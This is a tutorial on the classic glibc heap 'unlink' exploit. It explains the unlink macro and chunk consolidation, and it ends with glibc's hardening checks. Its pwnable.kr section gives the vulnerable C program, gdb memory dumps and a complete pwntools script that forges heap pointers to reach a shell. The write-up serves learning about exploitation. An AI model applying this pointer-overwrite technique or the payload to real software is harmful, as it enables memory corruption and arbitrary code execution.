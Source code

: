 # Unlink Exploit

The unlink exploit [Phrack \#57](http://www.phrack.org/issues/57/8.html#article)

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin.  

```c
FD->bk = BK;                                                              \
BK->fd = FD;
```

#### Consolidate Backwards

glibc likes to keep the heap tidy, as I've been told, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

This used to be much easier to exploit, but due to glibc hardening it's much more difficult.  Firstly, I'll walk through an example from pwnable.kr which will allow us to demonstrate the prior behaviour.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since it exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

We only need to do a 4-byte overwrite into the B struct as we'll just overwrite fwd

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

By overwriting fd with EIP:

```text
FD->bk=BK;
BK->fd=FD;
```

So we need to write to fill the current allocation plus 4 bytes which will be the address of EBP-4.

```python
from pwn import *
s=ssh(host='pwnable.kr' ,port=2222,  user='unlink', password='guest')

r = s.process('./unlink')
r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

print stack
print heap

ebp = int(stack, 0) - 0x20
heap = int(heap,0)
shell = 0x80484eb

payload = p32(shell)
payload += p32(heap+12)
payload += p32(0x19)
payload += p32(0x19)
payload += p32(ebp) #fd
payload += p32(heap+16) #bk

r.sendafter(' get shell!', payload)
r.interactive()
```

## Modern Hardening Measures

These protections can be bypassed but only in very specific circumstances, so it's very difficult to give a list of bypasses.  In effect, you need to ensure that you can write memory in such a way that these checks are bypassed, as effectively they are just two integer comparisons.

### corrupted\_size vs prev\_size

The following code checks the integrity of the chunk:

```c
chunksize(P) != prev_size (next_chunk(P))
```

This is not a major issue in the case of forging chunks, but if given a single null-byte overwrite it can interfere with any attempts to create an unlink-exploit.

### corrupted double-linked list

```c
FD->bk != P || BK->fd != P
```

A basic integrity check to ensure that the double-linked list structure is intact.  This again means you can't perform an arbitrary write-what, where.





